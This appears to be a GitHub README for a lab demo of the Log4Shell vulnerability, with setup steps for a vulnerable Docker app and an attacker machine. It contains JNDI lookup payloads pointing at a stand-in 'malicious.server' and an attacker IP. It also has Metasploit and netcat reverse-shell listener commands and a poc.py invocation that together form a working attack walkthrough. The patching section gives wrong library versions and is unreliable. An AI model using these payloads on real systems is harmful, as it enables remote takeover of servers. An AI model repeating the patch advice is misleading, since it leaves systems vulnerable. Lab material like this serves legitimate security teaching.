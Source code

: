 # Log4j Vulnerability
Log4j vulnerability demo for CVE-2021-44228. <br>
It is based on proof of concept demo by Kozmer and few modifications were made such as adding python and bash to docker to trigger meterpreter.
A new Application was re-built using same POC demo with new log4j libraries 
Kozimer's POC Github Link: https://github.com/kozmer/log4j-shell-poc

The application is vulnerable as it is logging username using Log4j using vulnerable log4j api library.

Logger logger = LogManager.getLogger(com.example.log4shell.log4j.class); </br>
logger.error(userName);</br>
out.println("&#60;code&#62; the password you entered was invalid, &#60;u&#62; we will log your information &#60;/u&#62; &#60;/code&#62;");</br>

As vulnerable application is logging invalid usernames, it is as easy as sending maliciously crafted JNDI lookup as username and malicious.server hosts a malicious Jar file that can create a reverse shell
Username: ${jndi:ldap://malicious.server/Exploit}

<br>
<br>
<br>

# Vulnerable Application setup instrutions(Non docker):

1)Pull/download the vulnerable application from the Github repo which is a modified version of kozmer's Repo:

    Vulenerable machine: https://github.com/sudesh0sudesh/log4jDemo_vulnerable

    Ref:https://github.com/kozmer/log4j-shell-poc

2) Install docker on your system.

   Linux: You can install it by executing the command(sudo apt install docker).
   Windows : Download Docker Desktop application.

3) Traverse into the folder containing the vulnerable application where you can see the docker file.

   To traverse you can use cd in both the operating systems.

4) Execute the below command to create a docker_image.

   Command: docker build . -t &#60;Image_name&#62;

5) Execute the below command to execute the docker_image.

    Command: docker run --network host  &#60;Image_name&#62;





# Setting up of Exploit machine:

1)Pull/download the exploit code from the Github repo:
 
   https://github.com/kozmer/log4j-shell-poc

2) The exploit was built using java 8, Download java-8u20

    https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

3) Extract the java application and copy the JDK folder to log4j folder where you can see poc.py file.

    Commands: tar -xf jdk-8u20-linux-x64.tar.gz
             cp -R jdk1.8.0_20  &#60; log4j folder where you can see docker file;

4) Install the requirements needed as the process was automated using a python script that uses colorama(to display colored text) and argparse to read inputs from arguments.

    Commands:   pip install colorama argparse

5) Both Netcat and Metasploit can be used for listing reverse_tcp connections.

        Metasploit installation instructions can be found using the below url

        URL: https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers

        Netcat can be installed on linux using the below command.
        Command: Sudo apt install netcat

6) Allow the port that you want to allow connections for Ufw and let's call that port as Metasploit_listening_PORT.

    Command: ufw allow  &#60;Metasploit_listening_PORT&#62;

7) Start listening for connections on using reverse_tcp handler on metasploit.
   
    Commands:
        msfconsole -qa(Just to avoid banner).
        use /exploit/multi/handler
        set LHOST &#60;Exploit_Host_IP&#62;
        set LPORT &#60;Metasploit_listening_PORT&#62;
        exploit
    You can do the same thing using netcat.

    nc -lvnp &#60;Metasploit_listening_PORT&#62;

8) Traverse to the folder where poc.py file is present and execute the below command.

     Command: python3 poc.py --userip &#60;Exploit_Host_IP&#62; --webport &#60;Web_PORT&#62; --lport &#60;Metasploit_listening_PORT&#62; 

     Web_PORT can be any port greater than 5000, just to avoid conflicts.
     After the execution of poc.py you will find the JNDI lookup that should be passed as input on terminal.



# Exploitation Procedure/Steps:    

1) Visit the vulnerable webapplication via url.

    http://Vulnerable_machine_IP:8080

2) Now pass JNDI lookup as username and vulnerable application is logging username field on server side.
    
    ${jndi:ldap://Exploit_Host_IP:1389/a}

3) Now if we check metasploit or netcat we will find the reverse shell.


# Patching

1) Vulnerable application is using a log4jcore api version 1.4 which was vulnerable.

2) Download the log4j versions that are greater than 1.7 from the below link.
       
    https://logging.apache.org/log4j/2.x/download.html
    

3) Let's Extract the log4shell-1.0-SNAPSHOT.war and replace the log4j_api_1.4 library with log4j_api_1.7
 
    Path for libraries: log4j-shell-poc-main\target\log4shell-1.0-SNAPSHOT\WEB-INF\lib

4) Rebuild the log4shell-1.0-SNAPSHOT.war using jar which was installed as part of jdk.

    Command: jar -cvf log4shell-1.0-SNAPSHOT.war  *

5) Let's rebuild the docker image with modified application.

    Command: docker build . -t &#60;Image_name&#62;

6) Let's run the modified docker image using the below command.

    Command: docker run --network host  &#60;Image_name&#62;

7) For the sake of this demo, I have already created and stored in my github.

    Non Vuln machine: https://github.com/sudesh0sudesh/Log4jDemo_nonvuln
